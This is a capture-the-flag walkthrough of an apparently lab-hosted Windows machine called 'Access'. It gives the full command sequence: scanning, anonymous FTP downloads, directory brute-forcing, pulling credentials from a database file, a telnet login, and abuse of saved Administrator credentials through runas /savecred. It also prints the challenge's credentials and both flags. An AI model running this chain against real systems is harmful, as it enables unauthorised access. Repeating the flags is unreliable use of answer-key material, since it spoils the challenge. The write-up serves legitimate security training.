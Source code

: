 # Access - Easy

```shell
nmap -T4 -A 10.10.10.98

ftp 10.10.10.98
#anonymous login
#get both files

feroxbuster -u http://10.10.10.98 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

#use mdbtools to view .mdb file
mdb-tables backup.mdb

telnet 10.10.10.98
#login using creds for security

cmdkey /list
#Administrator creds are stored

C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\root.txt"
#runas to use Admin saved creds
#and copy root.txt content to readable file

type root.txt
```

* Open ports & services:

  * 21 - ftp - Microsoft ftpd
  * 23 - telnet
  * 80 - http - Microsoft IIS httpd 7.5

* FTP allows anonymous login, so we can use ```get``` to transfer both files to our machine.

* We have two files - a zip file which requires a password, and a .mdb file.

* We can simultaneously explore the website, and enumerate for hidden directories.

* feroxbuster does not show any significant hidden directories; we can go back to the files found through ftp.

* We can use ```mdbtools``` to view the .mdb file; alternatively, we can use online tools to view the file.

* We have a table called ```auth_user``` with some entries - checking its content gives us 3 pairs of credentials:

  ```markdown
  engineer:access4u@security
  admin:admin
  backup_admin:admin
  ```

* As the .zip file was found in the engineer directory in FTP, we can use the engineer's password for the .zip file.

* This works and we have a .pst file now, which is an Outlook email folder.

* By viewing the .pst file online, we get an email which contains the creds security:4Cc3ssC0ntr0ller

* Now, we are able to login via telnet, using the above creds; user flag can be found in security's Desktop.

* We can check for stored creds using ```cmdkey```, and we can see that Administrator creds are stored.

* We can use runas along with the saved creds, and copy the root flag's contents to security's home directory.

* This way, we can read the root flag directly without privesc.

```markdown
1. User flag - dbf02aafdaa231b019bfdadd48c7a313

2. Root flag - ce3986c12d1ef0b1f7c593dc23c9b030
```
